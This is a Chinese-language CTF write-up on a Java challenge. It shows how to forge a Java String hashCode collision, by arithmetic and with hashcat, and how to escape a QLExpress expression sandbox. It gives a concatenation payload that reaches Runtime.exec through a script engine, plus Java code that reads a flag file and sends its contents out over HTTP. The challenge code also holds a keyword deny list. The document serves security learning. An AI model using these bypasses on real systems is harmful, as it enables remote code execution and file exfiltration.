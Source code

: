 ```yaml
---
title: CTF： java 哈希碰撞&QLExpression
author: Enokiy
date: 2022-01-01 
categories: [web安全]
tags: [java,web安全]
---
```



某CTF题目如下：

```java
public class QlApplication {
@RequestMapping({"/"})
public String index(){
return "welcome! :)";
}

    @RequestMapping({"/exp"})
    public String exp(@RequestBody Map params) throws Exception {
        String key  = (String)params.get("token").toString();
        String secret = "HFCTF2022";
        if (key.hashCode() == secret.hashCode() && !secret.equals(key)) {
            String cmd = params.get("cmd").toString();
            Pattern pattern = Pattern.compile("Process|runtime|javascript|\\+|char|\\\\|from|\\|\\]|load",2);
            if (pattern.matcher(cmd).find()){
                return "nononono!!";
            }

            ExpressRunner runner = new ExpressRunner();
            DefaultContext<String,Object> context = new DefaultContext<>();
            Object r = runner.execute(cmd,context,null,true,false);
            return "hack me";
        }

        return key;
    }
}

```

## java hash碰撞

其中的一个考点是，java 的hashcode，需要找到一个与原字符串不相等但hashcode相同的字符串。
String的hashcode的实现：
jdk1.8里面的源码：

```java
/*Returns a hash code for this string. The hash code for a String object is computed as
s[0]*31^(n-1) + s[1]*31^(n-2) + ... + s[n-1]

using int arithmetic, where s[i] is the ith character of the string, n is the length of the string, and ^ indicates exponentiation. (The hash value of the empty string is zero.)
Returns:
a hash code value for this object.
*/
public int hashCode() {
int h = hash;
if (h == 0 && value.length > 0) {
char val[] = value;

        for (int i = 0; i < value.length; i++) {
            h = 31 * h + val[i];
        }
        hash = h;
    }
    return h;
}

```

计算的关键就是for循环中的h = 31 * h + val[i]，对字符串的每一个字符依次进行该运算。下面有几个例子

```
//97
"a".hashCode()
//97*31+98=3105
"ab".hahsCode()
//3105*31+99=96354"abc".hashCode()
```

可以看到前面字符的hash值也会影响后续hash值，于是我们能够构造出如下等式：
```
31*h1 + a[i] = 31*h2 + b[j]
(h1-h2)*31 = b[j]-a[i]   
```

假如有字符串aa，我们能够很容易计算出与之hash相等的另一字符串bB

```
//bB --> aa
31*98 + 66 = 3104 = 31*97 + 97 (aa)
```

后续字符串的hash也相等

```
//trueSystem.out.println("bBDDD".hashCode()=="aaDDD".hashCode());   
```

因此本题想要构造出与HFCTF2022的hash相等的另一字符串，我们只需要找到与字符HF的hash相等的字符即可：
```
HF=31*72+70=2302=31*71+101=Ge=31*73+39=I'
```

## hash碰撞另一种思路

使用hashcat工具解决：

先算出给出字符串的hash值（用16进制表示）,然后用hashcat爆破：

```
System.out.println(Integer.toHexString("HFCTF2022".hashCode())); //865bf5b5

hashcat.exe -m 18700 -a 3 865bf5b5 --show 
```
```
xxxxx\hashcat-6.2.5>hashcat.exe -m 18700 -a 3 865bf5b5 --show
865bf5b5:18wd6vi
```

## QLExpress

另外一个考点,题中的`ExpressRunner`是使用的[QLExpress](https://github.com/alibaba/QLExpress),QLExpress支持直接运行java代码,但是有黑名单类的限制,黑名单:
+ java.lang.System.exit
+ java.lang.Runtime.exec
+ java.lang.ProcessBuilder.start
+ java.lang.reflect.Method.invoke
+ java.lang.reflect.Class.forName
+ java.lang.reflect.ClassLoader.loadClass
+ java.lang.reflect.ClassLoader.findClass

绕过方法一:使用scriptEngineManager:

`cmd = new javax.script.ScriptEngineManager(null).getEngineByName("js").eval("java.lang.Run".concat("time.getRun").concat("time().exec('calc')"))`

绕过方法二:只是限制了不能执行命令,还有其他的读文件等操作可以进行,所以可以读出文件内容再通过http将flag发送出来:
```
import java.net.HttpURLConnection;
import java.net.URL;
import java.nio.file.Files;
import java.nio.file.Paths;
String flag = new String(Files.readAllBytes(java.nio.file.Paths.get(new java.net.URI("file:///j:/tmp/flag.txt"))));
HttpURLConnection conn = (HttpURLConnection) new URL("http://127.0.0.1:8080/?a="+flag).openConnection();
conn.setRequestMethod("GET");
conn.getResponseCode()
```